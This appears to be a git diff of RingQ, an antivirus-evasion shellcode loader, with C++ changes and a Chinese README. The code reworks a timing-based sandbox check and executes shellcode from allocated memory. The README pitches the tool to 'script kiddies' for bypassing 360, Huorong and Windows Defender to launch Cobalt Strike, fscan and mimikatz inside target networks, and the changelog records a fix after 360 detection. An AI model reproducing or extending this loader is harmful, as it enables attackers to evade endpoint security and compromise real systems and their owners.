

20240620

diff --git a/RingQ/RingQ.cpp b/RingQ/RingQ.cpp
@@ -164,14 +164,16 @@ void quickSort(int arr[], int left, int right) {
 
 int decryptKey(int diff, int minValue, int maxValue) {
 
-    std::random_device rd;
-    std::mt19937 gen(rd());
-    std::uniform_int_distribution<int> dis(minValue, maxValue);
-    int randomValue = diff + dis(gen);
-    if (randomValue == 520520) {
-        return randomValue;
+    for (int num = minValue; num <= maxValue; num++) {
+        generateAndSortArray();
+
+        int randomValue = diff + num;
+
+        if (520519 < randomValue && randomValue < 520521) {
+            return randomValue;
+        }
     }
-    return decryptKey(diff, minValue, maxValue);
+
 }
 
 void banner() {
@@ -224,7 +226,7 @@ void RingQ(const std::string& file_path) {
     input_file.close();
 
     auto start_time = std::chrono::high_resolution_clock::now();
-    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
+    std::this_thread::sleep_for(std::chrono::milliseconds(2000));
     auto end_time = std::chrono::high_resolution_clock::now();
 
     auto elapsed_time = std::chrono::duration_cast<std::chrono::milliseconds>(end_time - start_time);
@@ -236,7 +238,7 @@ void RingQ(const std::string& file_path) {
 
     int i = 300;
     while (i--) {
-        int randomValue = decryptKey(diff, 5000, 5500);
+        int randomValue = decryptKey(diff, 1900, 2200);
 
         if (520519 < randomValue && randomValue < 520521) {
 
@@ -256,6 +258,7 @@ void RingQ(const std::string& file_path) {
 
             typedef void (*ShellcodeFunc)();
 
+            generateAndSortArray();
 
             ShellcodeFunc shellcodeFunc = reinterpret_cast<ShellcodeFunc>(execMemory);
 

diff --git a/README.md b/README.md
@@ -12,7 +12,7 @@
 
 不用关心怎么实现免杀，也不用浪费时间和精力去对某一款工具进行专项修改达成免杀效果
 
-助力每一位像我这样的脚本小子快速实现免杀，hvv尽快打穿点目标内网
+助力每一位像我这样的脚本小子快速实现免杀，hvv尽快打穿目标内网
 
 支持bypass 360 火绒 Windows Defender，一键免杀上线CS、fscan、mimikatz ...
 
@@ -57,14 +57,14 @@
 ### **微步**
 ![](images/image-20240511162750465.png)
 
-### **360**（2024.06.19更新）
+### **360**（2024.06.20更新）
 ![](images/360.png)
 ![](images/360sandbox.png)
 
-### **Windows Defender**（2024.06.19更新）
+### **Windows Defender**（2024.06.20更新）
 ![](images/DF.png)
 
-### **火绒6.0**（2024.06.19更新）
+### **火绒6.0**（2024.06.20更新）
 ![](images/hr.png)
 
 
@@ -100,6 +100,8 @@
 
 
 ### 更新日志
+
+2024.06.20  360QVM202报毒 已更新，修复执行无响应。
 
 2024.06.19  更新Banner，优化部分源码。  
 
